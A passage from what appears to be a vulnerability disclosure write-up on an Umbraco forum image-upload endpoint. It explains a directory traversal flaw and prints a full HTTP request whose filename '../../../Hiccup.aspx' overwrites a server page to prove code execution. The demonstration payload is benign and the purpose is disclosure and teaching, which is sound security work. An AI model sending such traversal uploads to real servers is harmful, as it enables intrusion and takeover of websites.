```http
```

When accessed, this page displays the current date and time of the server -- a simple proof of concept to show we have code execution capability.

As expected, the upload was successful and the following response was received:

```json
{
  "success": true,
  "imagePath": "/media/upload/c4e18a9b-79a8-4512-859b-473a396dbc44/unfriendly.aspx"
}
```

However, when I navigated to _/media/upload/c4e18a9b-79a8-4512-859b-473a396dbc44/unfriendly.aspx_ in my browser I got a 404 page 😕. This is because Umbraco treats requests with _.aspx_ extensions as _document requests_ -- that is, it will attempt to find a node in the content tree mapping to the URL, rather than serve the file on the file system. Umbraco will only serve up ASPX pages if their paths are specified in the `umbracoReservedUrls` or `umbracoReservedPaths` config settings, which an external attacker doesn't have control over.

I had to try harder...

## Directory Traversal

The second and more subtle issue with the code is in the following line:

```csharp
var filePath = updir.FullName + "/" + postedFile.FileName;
```

The file path here is being constructed using the original filename passed in the request, _which we have control of_. If we prefix the filename with one or more `../` expressions we can traverse up the directory tree and cause the file to be saved to another directory of our choosing.

This doesn't get around the issue that Umbraco won't serve our ASPX page, but what we _can_ do is try to overwrite one of Umbraco's existing ASPX pages. The following request overwrites the default _Hiccup.aspx_ file in the web root directory:

```http
POST /Umbraco/Api/Forum/EditorUpload HTTP/1.1
Host: localhost:24292
Content-Type: multipart/form-data; boundary=---------------------------276306773941646018834216137931
Cookie: yourAuthCookie=[AUTH COOKIE]
Content-Length: 243

-----------------------------276306773941646018834216137931
Content-Disposition: form-data; name="file"; filename="../../../Hiccup.aspx"
Content-Type: image/jpg

<%= DateTime.Now %>
-----------------------------276306773941646018834216137931--
```

If this is successful, when we navigate to _/Hiccup.aspx_ we should see the current date and time, proving that we have achieved server-side code execution:
